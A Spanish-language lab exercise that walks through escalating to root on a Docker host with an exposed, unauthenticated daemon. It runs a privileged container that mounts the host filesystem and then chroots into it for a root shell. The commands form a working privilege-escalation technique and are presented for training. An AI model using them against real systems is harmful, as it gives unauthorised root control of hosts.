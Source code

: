 # Laboratorio 3: Escalando privilegios

El objetivo del siguiente laboratorio es explotar una configuración insegura de Docker para escalar privilegios y obtener acceso root en el host de Docker.

### Requisitos previos
- Una instancia Ubuntu con Docker instalado.
- Socket daemond expuesto sin TLS
- Docker CLI configurado en la máquina local apuntando al host de Docker.
- Un usuario con permisos para ejecutar contenedores en Docker.

**Paso 1** Ejecuta el siguiente comando en tu máquina local para desplegar un contenedor inseguro:

        docker run -d --rm --name vulnerable-container \
        --privileged \
        -v /:/host \
        ubuntu:latest sleep infinity

**Paso 2** Explota la vulnerabilidad

        docker exec -it vulnerable-container /bin/bash

**Paso 3** Dentro del contenedor, accede al sistema de archivos del host:

        cd /host
        ls -la

Deberías ver el sistema de archivos completo del host. Ahora, cambia al usuario root del host ejecutando:

        chroot /host /bin/bash

Esto te dará una shell con permisos de root en la instancia. Confírmalo ejecutando:

        whoami
